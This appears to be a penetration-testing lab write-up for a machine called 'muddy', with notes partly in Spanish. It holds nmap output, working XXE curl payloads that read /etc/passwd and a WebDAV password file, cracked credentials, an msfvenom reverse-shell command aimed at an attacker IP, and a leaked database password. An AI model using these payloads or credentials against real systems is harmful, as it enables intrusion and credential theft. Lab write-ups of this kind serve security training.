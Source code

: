 #Pwned! 
```IP
192.168.177.161
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.177.161 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
25/tcp   open  smtp    syn-ack ttl 61 Exim smtpd 4.92
| smtp-commands: muddy Hello muddy.ugc [192.168.45.192], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
|_http-title: Muddy | Found some mud? Call us! &#8211; A muddy WordPress!
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 5.7
111/tcp  open  rpcbind syn-ack ttl 61 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
908/tcp  open  unknown syn-ack ttl 61
8888/tcp open  http    syn-ack ttl 61 WSGIServer 0.1 (Python 2.7.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.16
|_http-title: Ladon Service Catalog
Service Info: Host: muddy; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Nmap UDP


# Enumeration
## SMTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021102002.png?raw=true)

## HTTP 80
Wordpress 5.7
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021101424.png?raw=true)
no parece que pueda entrar con credenciales por defecto a webdav
no encuentro el wp-admin
con davtest y nuestras nuevas credenciales conseguidas en el 8888 vemos que podemos ejecutar y subir ficheros php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113305.png?raw=true)
Y ahora con cadaver subimos una revshell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113138.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113419.png?raw=true)
## HTTP 8888
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021094337.png?raw=true)
powered by ladon for python
```txt
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021095142.png?raw=true)
user ian seems to have sh

```
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021112019.png?raw=true)
```
administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0
```
```
administrant:sleepless
```
Vamos al webdav del puerto 80 con nuestras nuevas credenciales
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021120626.png?raw=true)
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -a x64 -f elf -o netstat
```

## Automated

### Peass

```
-rw-r--r-- 1 root root 3296 Mar 20  2021 /var/www/html/wp-config.php                    
define( 'DB_NAME', 'wp' );                                                              
define( 'DB_USER', 'wpadmin' );                                                         
define( 'DB_PASSWORD', 'ec99e2a005aa8cf0550ddfbdcde11141' );                            
define( 'DB_HOST', 'localhost' ); 
```

crontab -l
```
@reboot /usr/local/bin/ladon-2.7-ctl testserve /var/tmp/ladon/muddy.py -p 8000
```

### Mimikatz


